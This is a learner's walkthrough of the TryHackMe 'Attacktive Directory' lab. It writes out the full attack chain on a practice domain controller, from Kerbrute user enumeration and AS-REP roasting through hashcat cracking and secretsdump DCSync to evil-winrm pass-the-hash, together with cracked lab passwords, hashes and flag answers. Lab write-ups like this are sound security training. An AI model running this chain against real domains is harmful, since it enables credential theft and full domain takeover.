


# Tryhackme 1 August 2021
## Attacktive Directory Room

>Impacket

Installing this software simply requires cloning the git repo and install the python libraries it needs.

1. git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
1. pip3 install -r /opt/impacket/requirements.txt
1. cd /opt/impacket/ && python3 ./setup.py install

Above steps will download and install in its own /opt/impacket directory. On my Kali machine, it required sudo permissions. Just needs to ensure the machine has Python3 installed.

>Bloodhound and Neo4j

These two programs area also required.

The command is as follow:
- apt install bloodhound neo4j

apt update & apt upgrade should be run too otherwise they will fail to install

### Enumeration

As usual, use nmap to scan for open ports.

>sudo nmap -A  10.10.139.138 -oN  adirectory.out -vv

Command used

```bash
└─$ grep open adirectory.out                                                                    130 ⨯
53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2021-08-01 10:14:39Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
```

>What tool will allow us to enumerate port 139/445?

Tryhackme particularly asked what tool to enumerate port 139/445. The file output and what these ports are know for generally suggests these they are *SMB* shares so *enum4linux* can be used.

```
The syntax of Enum4Linux is nice and simple: "enum4linux [options] ip"

TAG            FUNCTION

-U             get userlist
-M             get machine list
-N             get namelist dump (different from -U and-M)
-S             get sharelist
-P             get password policy information
-G             get group and member list

-A             all of the above (full basic enumeration)
```

>enum4linuyx -A <target-ip>

Above command is used to get all details.

``` bash
 ============================================ 
|    Getting domain SID for 10.10.139.138    |
 ============================================ 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)
```
>What is the NetBIOS-Domain Name of the machine?

THM-AD

>Kerbrute

A program to bruteforce an active directory. Installation steps is a bit tedious. But the steps are:

1. Go to its Github repo at https://github.com/ropnop/kerbrute
1. Download the appropriate version (next step assumes it's a linux distribution)
1. Rename the download file to kerbrute for easy identification
1. Run 'chmod +x kerbrute' to allow it to be executable

>What command within Kerbrute will allow us to enumerate valid usernames?

userenum. use ./kerberos -h to find out.

## THM 3rd August
Skipped a few days due to busy/break. Decided to refer to a video guide as the scope for this room is big and someone more knowledgeable can teach me more than going through solo.

>Notes from The Cyber Mentor https://youtu.be/L8fK5-oTSws

1. Looking at the ports that are opened, if 88, 636, 389 ports open usually indicate the machine is a domain controller.
1. Apparently, enum4linux not as good, smbclient might be better
1. Kerberos can be known as key distribution center which happens to run on a domain controller (which is what is being enumerated and possibly attacked later)
1. Devices will request a ticket-granting ticket (TGT) to Kerberos

```bash
┌──(kali㉿kali)-[/opt/kerbrute]
└─$ ./kerbrute userenum -d spookysec.local --dc 10.10.143.1 userlist.txt 
```

Above is the command used to enumerate a list of usernames on the THM machine. -d for domain name that was discovered with the nmap scan and --dc for domain controller's IP address. Userlist is a file provided by THM to presumably finish getting usernames quicker.

```bash
Version: v1.0.3 (9dad6e1) - 08/03/21 - Ronnie Flathers @ropnop

2021/08/03 06:37:16 >  Using KDC(s):
2021/08/03 06:37:16 >   10.10.143.1:88

2021/08/03 06:37:17 >  [+] VALID USERNAME:       james@spookysec.local
2021/08/03 06:37:24 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2021/08/03 06:37:32 >  [+] VALID USERNAME:       James@spookysec.local
2021/08/03 06:37:35 >  [+] VALID USERNAME:       robin@spookysec.local
2021/08/03 06:38:09 >  [+] VALID USERNAME:       darkstar@spookysec.local
2021/08/03 06:38:30 >  [+] VALID USERNAME:       administrator@spookysec.local
2021/08/03 06:39:11 >  [+] VALID USERNAME:       backup@spookysec.local
2021/08/03 06:39:30 >  [+] VALID USERNAME:       paradox@spookysec.local
2021/08/03 06:41:35 >  [+] VALID USERNAME:       JAMES@spookysec.local
2021/08/03 06:42:17 >  [+] VALID USERNAME:       Robin@spookysec.local
2021/08/03 06:46:26 >  [+] VALID USERNAME:       Administrator@spookysec.local
2021/08/03 06:54:47 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2021/08/03 06:57:27 >  [+] VALID USERNAME:       Paradox@spookysec.local
2021/08/03 07:06:31 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2021/08/03 07:09:08 >  [+] VALID USERNAME:       ori@spookysec.local
2021/08/03 07:14:02 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2021/08/03 07:26:13 >  Done! Tested 73317 usernames (16 valid) in 2937.174 seconds
```

Above is the result from the Kerbrute program

>What notable account is discovered? (These should jump out at you)

svc-admin

>What is the other notable account is discovered? (These should jump out at you)

backup

### Exploiting Kerberos + Notes on Kerberoasting

Assuming there is one device and the KDC, another entity that could be runing is a service/svc. Notice the svc-admin account that was discovered. This service/svc utilizes "service principal name (SPN)".

Assuming a password is already known, and a ticket-granting ticket (TGT) is obtained, the TGT can be used to obtain a TGS from the KDC. The Cyber Mentor refers to the TGS as a "service ticket". This TGS can be used with a service whereby the service will verify if the TGS presenter has access or not. 

The TGS contains credentials that are encrypted/hashed hence why a user with the TGS could use it to gain access to a service - because the service will decrypt the credential hence verifying the user for access. However, with Kerberoasting, the goal is to get this TGS in an offline environment and crack it without using it to gain access to the service.

>ASREPRoasting

An attack method to abuse an account that has a the privilege "Does not require Pre-authentication" so it can request tickets easily. However, the user account with that privilege set needs to be identified.

This method is used by skipping the TGT process that would have been executed in a Kerberoasting sequence.

>GetNPUsers.py -no-pass -dc-ip <IP Address> spookysec.local/svc-admin

Above is the command used to get the asrep hash. The Cyber Mentor's command did not have -dc-ip specified yet it worked on his end. Could be because his Impacket version is an older one.

Trying this with /backup does not work. 

```bash
└─$ GetNPUsers.py spookysec.local/backup -no-pass -dc-ip 10.10.158.228
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

That account does not have the "Does not require Pre-authentication" privilege set.

## Password Cracking with Hashcat

Managed to do this section without referring to the video. But figuring out the correct syntax for Hashcat took a few tries and it refused to run in my VM the first time.

>We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

svc-admin

>Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

Kerberos 5, etype 23, AS-REP

>What mode is the hash?

18200

>Now crack the hash with the modified password list provided, what is the user accounts password?

management2005


```bash
┌──(kali㉿kali)-[/opt/kerbrute]
└─$ hashcat -m 18200 -a 0 hashthis.txt passwordlist.txt --force
```

Above is the command used to run this. --forced was used because Hashcat did not want to execute normally in a virtualized environment. I am using Kali Linux with Oracle Virtualbox as the hypervisor.

>Results
<details>
<summary>hashcat output</summary>

┌──(kali㉿kali)-[/opt/kerbrute]
└─$ hashcat -m 18200 -a 0 hashthis.txt passwordlist.txt --force                                   255 ⨯
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-AMD Ryzen 5 3600 6-Core Processor, 1422/1486 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.                                                                                                      
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 134 MB

Dictionary cache built:
* Filename..: passwordlist.txt
* Passwords.: 70188
* Bytes.....: 569236
* Keyspace..: 70188
* Runtime...: 0 secs

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:1bb27ef11636228012d5634237a1e164$87a4e71747d7f946299492f52daf903f1288457633756455478f4d6e0125948491279855e243b0bf6bb2139fead3d67233c2700658d1cbc8bc201665c1dd8c0fd057c95102aa5ba26f118e858a21a3410ce41d302f4e4b506105770d17c59e0ac4c248919d157fd6fe08274f3057e45bd442eab3c07326d9ff71e4347fa54bd4497b48c28046af1aed0cf92c8764b51425ba8e5301da651c973da4069ab67e71803c7ef138f7c715fad1cb52e15a070a11cf086f03c1803b4e50e800b8017f080ece284535bd32d70f4b3a448bc756e46f12bcec6b31e25e833152765a3f3f998d6122df007d4f104b620db0820e982c994c:management2005
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:1bb27ef1163...2c994c
Time.Started.....: Tue Aug  3 11:45:46 2021, (0 secs)
Time.Estimated...: Tue Aug  3 11:45:46 2021, (0 secs)
Guess.Base.......: File (passwordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   581.8 kH/s (12.62ms) @ Accel:128 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 32768/70188 (46.69%)
Rejected.........: 0/32768 (0.00%)
Restore.Point....: 0/70188 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: m123456 -> elenutza

Started: Tue Aug  3 11:45:18 2021
Stopped: Tue Aug  3 11:45:48 2021

</details>

## THM 4 August 2021
### Enumerating SMB

>What utility can we use to map remote SMB shares?

smbclient

>Which option will list shares?

-L

>How many remote shares is the server listing?
6
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L //10.10.185.168/THM-AD  -U svc-admin -p 139     
```

Above is the command used to find the number of shares. Took a few trials and errors and referring back to the SMB room.

```bash
└─$ smbclient -L //10.10.185.168/THM-AD  -U svc-admin -p 445
Enter WORKGROUP\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Results as above.

>There is one particular share that we have access to that contains a text file. Which share is it?

┌──(kali㉿kali)-[~]
└─$ smbclient \\\\10.10.185.168\\backup -U svc-admin                                              1 ⨯

Above is the command used to connect to the backup SMB share.

>What is the content of the file?

Firstly, the contents of the share was listed with ls

└─$ smbclient \\\\10.10.185.168\\backup -U svc-admin                                              1 ⨯
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

  Afterwards, backup_credentials.txt was dowenloaded with mget.
  
```bash
smb: \> mget backup_credentials.txt
Get file backup_credentials.txt? yes
```

The downloaded file can be found at /home.

>What is the content of the file?

YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

>Decoding the contents of the file, what is the full contents?

backup@spookysec.local:backup2517860

The content of the file was decoded with CyberChef. The content was placed in the input which detected it as Base64 and it automatically decodes in output.

https://gchq.github.io/CyberChef/


### THM 5 August 2021

This took almost 2 hours to figure out.

>sudo secretsdump.py spookysec.local/backup:'backup2517860'@10.10.157.32 -just-dc

To use the secretsdump.py, sudo must be included here. The Cyber Mentor's video and most other guides do not mention this. Otherwise, it returns an error. Only managed to figure this out by going through this [medium post]( https://0xaniket.medium.com/tryhackme-attacktive-directory-walkthrough-4a761e15e3bf) where the author mentioned about running secretsdump with sudo. Prior to this, I tried reinstalling and downgraded to an older version of impacket.

>What method allowed us to dump NTDS.DIT?

DRSUAPI. The answer can be found within the first line of secretsdump.py output.



>What is the Administrators NTLM hash?

0e0363213e37b94221497260b0bcb4fc



From above, the nthash can be identified with ':' separating each data.

>What method of attack could allow us to authenticate as the user without the password?

[Pass the hash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack)

>Using a tool called Evil-WinRM what option will allow us to use a hash?

-H

>evil-winrm -i 10.10.157.32 -H 0e0363213e37b94221497260b0bcb4fc -u Administrator

Above is the command to gain access into the Administrator account.

### Flag Submission Panel

>Administrator
TryHackMe{4ctiveD1rectoryM4st3r}

After trying to pass the hash on the following accounts for about half an hour, apparently all the details are already accessible with the Administrator account. You can just cd .. and then access the Users file. smh

>svc-admin 

TryHackMe{K3rb3r0s_Pr3_4uth}

>backup

TryHackMe{B4ckM3UpSc0tty!}

This marks the end for Attacktive Directory. Started off quite slow but got really challenging towards the end even with guides. Will probably revisit again to see how much I improve.